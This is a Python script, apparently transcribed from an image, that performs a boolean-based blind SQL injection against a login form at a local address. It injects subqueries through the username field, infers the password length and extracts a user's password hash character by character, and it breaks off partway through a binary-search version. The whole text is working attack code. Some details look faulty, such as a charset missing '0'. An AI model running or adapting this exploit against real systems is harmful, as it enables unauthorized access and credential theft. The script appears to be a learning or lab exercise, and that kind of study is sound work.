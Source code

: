 ```python
import requests

# Global variable to track the number of queries made
total_queries = 0

# The charset used to guess the password hash characters
charset = "123456789abcdef"

# The target URL for the SQL injection attack
target = "http://127.0.0.1:5000"

# The string to look for in the response to determine if the injection was successful
needle = "Welcome back"

# Function to perform the SQL injection query
def injected_query(payload):
    global total_queries
    r = requests.post(target, data={"username": "admin {}--".format(payload), "password": "password"})
    total_queries += 1
    return needle.encode() not in r.content

# Function to perform a boolean-based SQL injection to compare a specific character
def boolean_query(offset, user_id, character, operator=">"):
    payload = "(select hex(substr(password,{},1)) from user where id = {}) {} hex('{}')".format(offset + 1, user_id, operator, character)
    return injected_query(payload)

# Function to check if a user ID is invalid
def invalid_user(user_id):
    payload = "(select id from user where id = {}) >= 0".format(user_id)
    return injected_query(payload)

# Function to determine the length of the password for a given user ID
def password_length(user_id):
    i = 0
    while True:
        i += 1
        payload = "(select length(password) from user where id = {} and length(password) <= {} limit 1)".format(user_id, i)
        if not injected_query(payload):
            return i

# Function to extract the password hash character by character
def extract_hash(charset, user_id, password_length):
    found = ""
    for i in range(password_length):
        for j in range(len(charset)):
            if boolean_query(i, user_id, charset[j]):
                found += charset[j]
                break
    return found

# Function to extract the password hash using binary search
def extract_hash_bst(charset, user_id, password_length):
    found = ""
    for index in range(password_length):
        start = 0
        end = len(charset) - 1
        while start <= end:
            if end - start == 1:
                if boolean_query(index, user_id, charset[start]):
                    found += charset[start]
```
